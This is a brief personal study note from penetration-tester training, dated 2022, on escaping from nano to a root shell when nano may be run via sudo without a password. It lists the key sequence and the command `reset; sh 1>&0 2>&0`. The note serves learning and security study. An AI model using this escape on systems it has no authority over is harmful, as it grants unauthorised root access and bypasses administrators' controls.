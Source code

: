 # Exploiting Nano

**author**:: Nathan Acks  
**date**:: 2022-04-21

If `nano` is allowed to be run via `sudo` without a password, you can use the following to break out into a root shell:

* `CTRL+R` (read file)
* `CTRL+X` (execute file)
* `reset; sh 1>&0 2>&0`

Boom!

* [2022-04-20 — ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)

